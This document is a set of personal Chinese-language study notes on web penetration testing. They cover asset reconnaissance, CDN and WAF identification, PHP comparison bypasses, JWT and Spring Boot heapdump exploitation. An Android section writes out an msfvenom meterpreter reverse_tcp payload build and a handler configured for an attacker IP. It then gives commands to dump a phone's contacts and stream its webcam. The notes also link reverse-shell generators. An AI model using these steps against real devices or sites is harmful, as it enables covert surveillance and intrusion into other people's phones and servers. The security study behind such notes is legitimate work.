## 基础知识

https://en.fofa.info/ 搜索引擎

https://www.sogou.com/docs/more.htm?v=1 搜狗搜索 不错 可搜索微信内容

001

https://www.cnblogs.com/sunny11/p/13583083.html
https://forum.ywhack.com/bountytips.php?download
https://forum.ywhack.com/reverse-shell/  反弹shell生成器
https://blog.csdn.net/weixin_43303273/article/details/83029138

NC自己网上下载 不会下的话 找我要吧

国内网站需要备案。可以在购买的时候选择香港的服务器。在万网购买域名

005

自行搭建资产架构

0、前置
云服务器，域名等购买使用

1、熟悉服务器
目录，端口等站点搭建；
多插件，多站点等搭建；
第三方服务协议应用搭建；

2、部署防护
WAF，主机防护等

3、优化性能
负载均衡，CDN等

看服务器是linux还是windows操作系统：改变大小写，如果页面变化了就是linux

利用在线端口扫描工具找出是哪种数据库

## 信息收集 https://forum.ywhack.com/bountytips.php?getinfo

006

https://www.huzhan.com/
https://28xin.com/
https://bbs.bcb5.com/
https://www.shixinwl.com/
https://www.lengcat.com/  冷猫资源网 下载源码的 
https://www.xlymz.com/
https://www.ymadx.com/
........

更多针对违法应用源码：
可利用fofa和bing、谷歌等搜索关键字获取

搜索的时候带上`php`字样，php漏洞多，可以从这方面入手

site:xxx php

C:\Program Files\Npcap 


008

查域名和ip地址可以查出厂商和服务

端口渗透 https://www.se7ensec.cn/2018/11/28/%E7%AB%AF%E5%8F%A3%E6%B8%97%E9%80%8F%E6%80%BB%E7%BB%93/

用nmap masscan 工具

- 旁注：同服务器下面的不同Web应用查询技术。
  - 目标：没头绪。可尝同一ip的不同域名
  - 在线旁注查询可查

- C段：。。。

- 开通了cdn服务、安全测试相当于在节点进行测试

如何看它有没有开cdn:超级ping 任何地方访问，都是同一ip 就没开。如果ip不一样，就是开了。选择就近省份，加快速度。

- 看图识别waf https://www.cnblogs.com/charon1937/p/13799467.html 有些waf绕不了
- WAFW00F allows one to identify and fingerprint Web Application Firewall (WAF) products protecting a website. https://github.com/EnableSecurity/wafw00f
- 进入/home/cyz/Downloads/wafw00f-2.2.0/wafw00f/ 目录，`python main.py 网址` 或者 进入目录 /home/cyz/Downloads/wafw00f-2.2.0 输入`waf00f url`  

- 检测是否有负载均衡 `lbd www.baidu.com`


009

- CDN

 绕过CDN寻找网站真实IP的方法汇总 https://zhuanlan.zhihu.com/p/33440472

- /home/cyz/Downloads/fuckcdn-master/ 寻找真实ip。查询备案信息，域名 whois, IDC ip段，把可能的ip放进ip.txt，等他运行完，在result_ip里看结果
  - 超级ping https://tool.chinaz.com/
  
  - 接口查询 https://get-site-ip.com/
  
  - 国外请求 https://tools.ipip.net/cdn.php
  
    
  
- cdn绑定 C:\Windows\System32\drivers\etc\hosts  绑定了的话用扫描工具就直接去真实ip扫了，不会扫节点。/etc/hosts


010

- app内在提取：appinfoscanner

- 17ce.com 扫描host url 查看有无cdn
- 没有：就进行端口扫描
- 资产搜集-资源提取-ico,md5-黑暗引擎 fofa 搜索相关资产
- https://quake.360.net/quake/#/index 

011

黑暗引擎

fofa https://fofa.info/

360 https://quake.360.net/quake/#/index 

https://www.shodan.io/

https://www.zoomeye.org/

https://github.com/EASY233/Finger 一款红队在大量的资产中存活探测与重点攻击系统指纹探测工具

https://github.com/knownsec/Kunyu 企业资产收集

自动化收集 https://github.com/TophantTechnology/ARL **水泽** kunyu

在 pip3 下载 requirements的时候网络问题没下载成功 换源后 没完全成功

```
DEPRECATION: flatbuffers 1.12.1-git20200711.33e2d80-dfsg1-0.6 has a non-standard version number. pip 24.0 will enforce this behaviour change. A possible replacement is to upgrade to a newer version of flatbuffers or contact the author to suggest that they release a version with a conforming version number. Discussion can be found at https://github.com/pypa/pip/issues/12063         
DEPRECATION: gpg 1.16.0-unknown has a non-standard version number. pip 24.0 will enforce this behaviour change. A possible replacement is to upgrade to a newer version of gpg or contact the author to suggest that they release a version with a conforming version number. Discussion can be found at https://github.com/pypa/pip/issues/12063                                               
DEPRECATION: wfuzz 3.1.0 has a non-standard dependency specifier pyparsing>=2.4*. pip 24.0 will enforce this behaviour change. A possible replacement is to upgrade to a newer version of wfuzz or contact the author to suggest that they release a version with a conforming dependency specifiers. Discussion can be found at https://github.com/pypa/pip/issues/12063                       
Installing collected packages: python-nmap, pyee, parse, mmh3, zope.event, zipp, w3lib, rich, pyyaml, greenlet, Faker, dacite, cssselect, colorlog, bs4, pyquery, pocsuite3, importlib-resources, gevent, grequests, fake-useragent, requests-html
  WARNING: The script faker is installed in '/home/cyz/.local/bin' which is not on PATH.
  Consider adding this directory to PATH or, if you prefer to suppress this warning, use --no-warn-script-location.                                                                             
  WARNING: The scripts poc-console and pocsuite are installed in '/home/cyz/.local/bin' which is not on PATH.                                                                                   
  Consider adding this directory to PATH or, if you prefer to suppress this warning, use --no-warn-script-location.                                                                             
ERROR: pip's dependency resolver does not currently take into account all the packages that are installed. This behaviour is the source of the following dependency conflicts.                  
crackmapexec 5.2.2 requires neo4j<5.0.0,>=4.1.1, but you have neo4j 1.7.0.dev0 which is incompatible.                                                                                           
crackmapexec 5.2.2 requires pylnk3<0.4.0,>=0.3.0, but you have pylnk3 0.4.2 which is incompatible.                                                                                              
Successfully installed Faker-21.0.0 bs4-0.0.1 colorlog-6.8.0 cssselect-1.2.0 dacite-1.8.1 fake-useragent-1.4.0 gevent-23.9.1 greenlet-3.0.2 grequests-0.6.0 importlib-resources-6.1.1 mmh3-4.0.1 parse-1.20.0 pocsuite3-2.0.5 pyee-8.2.0 pyquery-2.0.0 python-nmap-0.7.1 pyyaml-5.3.1 requests-html-0.10.0 rich-11.0.0 w3lib-2.1.2 zipp-3.17.0 zope.event-5.0
```

- 单点功能器
- https://forum.ywhack.com/center.php 工具们
- 水泽。下完了，tmd
- apt install docker.io
  docker pull yankovg/python3.8.2-ubuntu18.04  
  docker run -itd yankovg/python3.8.2-ubuntu18.04 bash
  docker exec -it docker的ID /bin/bash  
  apt-get update
  apt install git --fix-missing  
  apt install vim  
  rm /usr/bin/python3  
  ln -s /usr/local/bin/python3.8 /usr/bin/python3 
  python3 -m pip install --upgrade pip
  git clone https://github.com/0x727/ShuiZe_0x727.git
  chmod 777 docker_build.sh
  ./docker_build.sh

```
docker exec -it ed47220c3614af55f5295edfe73c50186f4d8e30f8137d6710fe49525c7dab8f /bin/bash
```


## PHP开发

看到phpsessioned之类的字眼，说明采用session验证，那么cookie就用处不大了

框架ThinkPHP 不同的版本有不同的漏洞，要想办法确定版本号

确定ThinkPHP 开发：看返回数据包有没有相关字眼，或看URL

- 如果是框架开发的网站，挖漏洞就相当于挖框架的漏洞
- 搜索 `ThinkPHP  版本号 rce(漏洞名) 修复` 。 与源码对比，源码有可能是被修复过的
- 很多黑产用的是ThinkPHP  框架
- 有些代码虽然用了框架，但由于写法不按照框架写，可能会有漏洞


## WEB攻防

切入点，主要在前两个

1. web源码
2. 开发语言
3. 中间件平台
4. 数据库类型
5. 第三方插件或软件

### asp

ASP框架 常见组合 windows操作系统 iis中间件  asp access (sqlserver)数据库

access数据库后缀名 asp asa mdb(下载获取到)

mdb文件在网站跟目录

如果知道数据库的地址，可以尝试下载获取数据库文件，获取当前管理员账号密码信息。数据库默认地址 /data/data.asp

### aspx

19天 .net开发。dll反编译：反编译c#的那个玩意儿，我好像又把它卸了

找未授权访问：

1. 找没有包含验证代码的文件。黑盒用工具扫出来。站长之家有很多网站的源码，白盒，直接看代码
2. 找到验证代码文件，绕过。类似于逆向。找aspx文件，读源码，看看是怎么验证是否登录的，如果aspx文件里没有，就看第一行，看看引入了哪些ddl文件，反编译去寻找。dll文件在bin目录下

### php函数特性

20天 



1. 过滤函数缺陷绕过
2. ctf考点 与 代码审计



判断有缺陷，比如 `1.0` `+1` `1admin`



在 PHP 中，如果一个字符串经过 MD5 哈希后以 0e 开头，并且后面是数字，那么 PHP 会将这个哈希值解释为科学计数法表示的零（0）

在PHP中,md5是不能处理数组的,md5(数组)会返回null,null===null成功绕过


文件在这里

使用的时候在搜索栏里输入 http://localhost/blog/bypass.php? 就行

```
 D:\phpStudy\PHPTutorial\WWW\blog\bypass.php
```


eg. 绕过`str_replace` 一次过滤









eg. `in_array` 没设置第三个参数 true 只要以数组中的数字开头就能绕过

两个判断 不判断类型



### JavaWeb



D21

需要有代码，白盒

JWT身份验证 类似cookie token

三方组件

jar包导入idea, 右键点jar包->添加为库

根据url寻找源码，看path可以确定是否找对



形如这样的cookie就是用了jwt 可以直接解码出原始数据 https://jwt.io/ 

[JWT原理及常见攻击方式](https://www.cnblogs.com/yokan/p/14468030.html)

用python 和java 写的网站就特别喜欢用jwt验证身份

### JavaScript



D22

js属于白盒测试。判断是否包括js开发





cookie里有connect.cid的字样

eg.



可通过修改返回的状态码实现验证码绕过从而修改密码

也可根据path构造，在搜索框上直接输入地址

eg.js开发框架 node.js jquery vue 有漏洞

### python








eg. 页面渲染，用了python去执行命令





两个`{` 说明要用python去执行

如何判断：



看到确实影响了显示



一般是白盒测试。在不知道源码的情况下，很难找到



用fofa搜索python搭建的网站


## APP

067 

https://github.com/kelvinBen/AppInfoScanner

一款适用于以HW行动/红队/渗透测试团队为场景的移动端(Android、iOS、WEB、H5、静态网站)信息收集扫描工具，可以帮助渗透测试工程师、攻击队成员、红队成员快速收集到移动端或者静态WEB站点中关键的资产信息并提供基本的信息输出,如：Title、Domain、CDN、指纹信息、状态信息等。

https://github.com/MobSF/Mobile-Security-Framework-MobSF

Mobile Security Framework (MobSF) is an automated, all-in-one mobile application (Android/iOS/Windows) pen-testing, malware analysis and security assessment framework capable of performing static and dynamic analysis.

https://mobexler.com/

Mobexler is a customised virtual machine, designed to help in penetration testing of Android & iOS applications.

068

apk查壳工具

apk脱壳工具

woc护网真他妈赚钱。挖src漏洞也可以

071 拿下服务器

实战 通过报错页面的长相推断出用的是springboot从而搜索相关漏洞利用 https://github.com/LandGrey/SpringBootVulExploit

先抓包，找到host

webpack packerfuzz打包分析

web漏洞扫描：awvs探针

heapdump 漏洞利用 下载它挖漏洞！

用java visualVM/Elipces memory analysis分析相关文件

Spring Boot Actuator未授权访问【XXE、RCE】单/多目标检测 https://github.com/rabbitmask/SB-Actuator

https://github.com/wyzxxz/heapdump_tool

Aliyun AK Tools By T00ls.Net

md狗东西关键部分没录进去

### 路飞学城公开课

LHOST写攻击方的ip

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.43.120 LPORT=5555 R > sb.apk
```

输入 `msfconsole ` 启动

```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload android/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set lhost 192.168.43.120
```

```
msf6 exploit(multi/handler) > set lport 5555
```

```
msf6 exploit(multi/handler) > run
```

`dump_contacts` 通讯录

`webcam_list` 

`webcam_stream` 监控视频


# other problems

问题一：

可先用pip list命令显示已安装包的信息（包名与版本号） 

再用pip show package_name命令能显示该安装的包的相关信息，其中包括它的安装路径。实际上包通常被安装在python安装目录下的lib\site-packages目录下

 

问题二：

python安装第三方包的安装路径，dist-packages和site-packages区别
            
            


简单来说
如果是系统自带的python，会使用dist-packages目录；
如果你手动安装python，它会直接使用目录site-packages。
这允许你让两个安装隔离开来。
dist-packages：系统自带的python
site-packages：自己安装的python

Python的包的安装路径如下

1、系统自带python
系统自带软件管理器安装， 模块将被安装到 dist-packages

/usr/lib/python2.7/dist-packages/

从 easy_install 和 pip (注： 是python的软件管理其，python有许许多多的软件) 使用，他们也使用 dist-packages,但是路径是：

/usr/local/lib/python2.7/dist-packages/
2、自己安装或者升级过后的python

python安装第三方库的路径是：

/usr/lib/python2.7/site-packages/

从 easy_install 和 pip 安装的第三方库安装路径是：
/usr/local/lib/python2.7/site-packages/3、非root用户，从 easy_install 和 pip安装第三方库的安装路径是

~/.local/lib/python2.7/site-packages有时候需要检查第三方库的路径是否在（笔者在这里碰见过一个坑，正常路径下又某个库，但是import找不到，只能指向这里的对应的库）

~/.local/lib/python2.7/site-packages/external/protobuf/python
————————————————
版权声明：本文为CSDN博主「程序猿的探索之路」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/nyist_yangguang/article/details/106260809
